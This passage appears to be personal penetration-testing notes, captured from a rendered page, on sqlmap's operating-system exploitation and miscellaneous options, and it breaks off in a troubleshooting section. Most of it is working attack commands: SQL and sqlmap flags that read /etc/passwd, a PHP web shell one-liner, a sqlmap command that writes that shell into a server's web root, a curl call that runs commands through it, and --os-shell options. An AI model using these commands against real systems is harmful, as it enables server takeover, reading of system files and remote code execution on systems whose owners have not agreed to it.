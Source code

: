 >[!code]- OS exploitation
>###### File read/write
>```SQL
># Must have the required permissions
>LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;
>```
>###### DBA privileges
>```powershell
># The Database Administrator has elevated permissions (helpful for OS exploitation)
>--is-dba
>```
>###### Read local files
>```powershell
>--file-read "/etc/passwd"
>
>cat ~/.sqlmap/output/www.example.com/files/\_etc\_passwd
>```
>###### Write to local files (to create a vulnerable web server)
>>[!info]-
>>Usually disabled. Eg the `--secure-file-priv` config must be manually disabled to enable the `INTO OUTFILE` command in MySQL.
>```powershell
># Prepare a basic PHP shell
>echo '<?php system($_GET["cmd"]); ?>' > shell.php
>
># Write the PHP shell on to the remote server
>sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
>
># Access the remote PHP shell to execute a remote command
>curl http://www.example.com/shell.php?cmd=ls+-la
>```
>```
>###### OS commands
>--os-shell # attempts various techniques
>--os-shell --technique=E # uses error-based payloads only
>```

>[!code]- Miscelleaneous options
>###### General
>```powershell
># Use default options, skip any required user-input
>--batch
>
># Session cookie
>sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
>sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
>
># Random user-agent header
>--random-agent
>
># Imitate a smartphone
>--mobile
>
># Change HTTP method
>--method PUT
>
>```
>###### Troubleshoot
>```powershell
># Display any DBMS errors
>--parse-errors
>
># Output traffic to a file (all sent and received HTTP requests)